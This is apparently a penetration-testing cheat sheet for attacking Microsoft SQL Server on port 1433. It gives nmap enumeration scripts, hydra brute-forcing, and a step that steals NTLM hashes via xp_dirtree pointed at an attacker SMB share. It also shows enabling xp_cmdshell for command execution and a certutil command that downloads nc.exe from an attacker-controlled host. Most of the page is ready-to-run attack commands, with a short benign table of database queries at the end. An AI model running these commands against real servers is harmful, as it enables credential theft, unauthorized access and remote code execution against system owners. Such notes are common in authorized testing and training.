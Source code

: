 # MSSQL \[1433]

## Enumeration <a href="#get-information" id="get-information"></a>

```shell-session
nmap -Pn -sV -sC -p1433 10.10.10.125
```

## Get information <a href="#get-information" id="get-information"></a>

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Brute force <a href="#brute-force-5" id="brute-force-5"></a>

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

## Having credentials <a href="#having-credentials" id="having-credentials"></a>

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

`MSSQL` default system schemas/databases:

* `master` - keeps the information for an instance of SQL Server.
* `msdb` - used by SQL Server Agent.
* `model` - a template database copied for each new database.
* `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
* `tempdb` - keeps temporary objects for SQL queries.

## command execution

**XP\_CMDSHELL**

```cmd-session
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

To enable xp\_cmdshell follow the following steps.

```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

{% hint style="info" %}
`xp_regwrite` is used to elevate privileges by creating new entries in the Windows registry
{% endhint %}

### Exploring database

<table><thead><tr><th width="339">Commands</th><th>Description</th></tr></thead><tbody><tr><td><code>SELECT name FROM master.dbo.sysdatabases</code></td><td>List all the databases.</td></tr><tr><td><code>USE &#x3C;database></code></td><td>select the database from available databases.</td></tr><tr><td>SELECT table_name FROM &#x3C;database>.INFORMATION_SCHEMA.TABLES</td><td>List all the tables.</td></tr><tr><td><code>SELECT &#x3C;column1>, &#x3C;column2> FROM &#x3C;table>;</code></td><td>print out all the vlaues from the table and columns specified.</td></tr><tr><td>SELECT * FROM &#x3C;table> WHERE &#x3C;column> = "&#x3C;str>"</td><td>list contents where search item is located.</td></tr></tbody></table>

> type GO after each command



